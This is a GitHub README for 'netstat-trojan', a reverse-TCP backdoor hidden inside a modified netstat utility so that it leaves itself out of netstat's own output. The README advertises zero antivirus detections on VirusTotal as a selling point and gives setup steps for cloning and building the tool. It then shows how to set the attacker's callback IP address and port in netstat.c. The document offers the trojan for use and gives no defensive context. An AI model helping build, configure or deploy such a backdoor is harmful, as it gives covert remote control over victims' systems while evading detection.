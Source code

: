 
# netstat-trojan
**netstat-trojan** is a reverse-TCP backdoor disguised within the netstat utility. It's designed to automatically exclude itself from the netstat output. 

[VIRUS TOTAL RESULTS](https://www.virustotal.com/gui/file/7b2d7a27e5907cc3210ab57aa1dc376c0555acb96da29288ca700408e68dbc3d/detection) 0/63

## Setup

1. Clone the repository:
   ```bash
   git clone https://github.com/Drew-Alleman/netstat-trojan/
   ```
2. Navigate to the cloned directory:
   ```bash
   cd netstat-trojan/
   ```
3. Initialize the configuration scripts:
   ```bash
   ./autogen.sh
   ```
4. Run the configuration:
   ```bash
   ./configure
   ```

## Configuration Process
To configure the Netstat-Trojan to suit your specific needs, you will need to modify the `netstat.c` file:

1. Open `netstat.c` in your preferred text editor. For example, using `vim`:
   ```bash
   drew@ubuntu-desktop:~/Projects/netstat-trojan$ vim src/netstat.c
   ```
2. Locate and modify the following settings:

   - **Port Configuration**: Define the port to host the backdoor.
     ```c
     #define PORT 44566
     ```
   - **Server IP Configuration**: Set the attacking IP address or the server address that the backdoor will connect to.
     ```c
     #define SERVER_IP "192.168.0.87"
     ```

Ensure that you replace `PORT` and `SERVER_IP` with the values that align with your desired configuration.
